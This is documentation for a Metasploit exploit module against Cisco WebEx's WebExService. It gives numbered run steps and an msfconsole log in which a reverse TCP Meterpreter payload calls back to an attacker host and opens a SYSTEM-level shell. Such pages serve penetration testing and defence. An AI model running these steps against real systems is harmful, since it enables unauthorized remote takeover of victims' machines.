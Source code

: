 ## Description

  This module exploits a remote code execution vulnerability in Cisco's WebEx client software for versions < v33.6.0.655.

  Vulnerable WebEx clients come with the `WebExService` that can execute arbitrary commands with System privileges.
  Due to insufficient checks on permissions, a local or domain user can start the `WebExService` through a remote connection
  and execute code.

## Vulnerable Application

  Cisco WebEx software v33.3.8.7 and below

## Verification Steps

  Example steps in this format (is also in the PR):

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/windows/smb/webexec```
  4. Do: ```set RHOSTS <IP>```
  5. Do: ```set SMBUser <USERNAME>```
  6. Do: ```set SMBPass <PASSWORD>```
  7. Do: ```run```
  8. You should get a shell.

## Scenarios

### Tested on Cisco WebEx v33.3.8.7 on Windows 7 x64 and x86

  ```

  msf5 > use exploit/windows/smb/webexec 
  msf5 exploit(windows/smb/webexec) > set smbuser a_user
  smbuser => a_user
  msf5 exploit(windows/smb/webexec) > set smbpass password
  smbpass => password
  msf5 exploit(windows/smb/webexec) > set rhosts 192.168.37.136
  rhosts => 192.168.37.136
  msf5 exploit(windows/smb/webexec) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf5 exploit(windows/smb/webexec) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(windows/smb/webexec) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444 
  [*] 192.168.37.136:445 - Connecting to the server...
  [*] 192.168.37.136:445 - Authenticating to 192.168.37.136:445 as user 'a_user'...
  [*] 192.168.37.136:445 - Command Stager progress -   0.96% done (999/104435 bytes)
  [*] 192.168.37.136:445 - Command Stager progress -   1.91% done (1998/104435 bytes)
  ...
  [*] 192.168.37.136:445 - Command Stager progress -  99.47% done (103880/104435 bytes)
  [*] 192.168.37.136:445 - Command Stager progress - 100.00% done (104435/104435 bytes)
  [*] Sending stage (179779 bytes) to 192.168.37.136
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.136:49158) at 2018-10-24 09:10:46 -0500

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > 

  ```
